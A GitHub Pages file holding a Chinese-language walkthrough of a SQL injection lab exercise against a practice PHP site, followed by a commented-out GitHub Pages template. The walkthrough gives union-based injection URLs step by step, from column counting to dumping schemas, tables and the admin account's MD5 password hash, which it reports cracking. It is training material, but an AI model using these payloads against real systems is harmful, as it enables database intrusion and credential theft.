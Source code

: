 内网靶场练习：

构造 “http://..30.11:90/sec_show.php?cid=1&aid=1 ”判断注入点 id=-1 报错，有注入 构造“http://..30.11:90/sec_show.php?cid=1&aid=1 order by 21 ” order by 猜字段，一个个试出来，order by 22 报错 order by 21成功 共有21个字段 http://..30.11:90/sec_show.php?cid=1&aid=-1 union select 1,2,@@hostname,version(),5,user(),7,8,9,10,11,12,13,14,15,16,17,18,19,20 查看目标电脑用户名:@@hostname SQLInjection1 查看版本:version() 5.6.12-log 查询当前用户:user() root@127.0.0.1 数据库：database() sqlinj_1

" cid=1&aid=-1 union select 1,2,3,4,5,@@datadir,7,8,9,10,11,12,13,14,15,16,17,18,19,20 -- " 查看当前目录:@@datadir c:\wamp\bin\mysql\mysql5.6.12\data\

构造“cid=1&aid=-1%20union%20select%201,2,3,4,5,group_concat(schema_name),7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20information_schema.schemata” 发现页面上出现3 4 6 字段，说明这三处都可以进行注入：

通过注入查看sqlinj_1库里面的表 cid=1&aid=-1%20union%20select%201,2,3,table_name,5,table_schema,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.tables where table_schema='sqlinj_1'-- 调用上面查询出sqlinj_1数据库查出库中wit_admin表

查看users表里面的列: "cid=1&aid=-1%20union%20select%201,2,3,table_name,5,column_name,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.columns where table_schema='sqlinj_1' and table_name='wit_admin' --" 获取列名为adm_id

盲猜字段 adm_admin adm_pass cid=1&aid=-1%20union%20select%201,2,3,adm_user,5,adm_pass,7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20sqlinj_1.wit_admin --

账号：admin 密码：e10adc3949ba59abbe56e057f20f883e ----md5----> 123456
<!--## Welcome to GitHub Pages ++11

You can use the [editor on GitHub](https://github.com/rmrfstop/rmrfstop.github.io/edit/main/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/rmrfstop/rmrfstop.github.io/settings/pages). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
-->
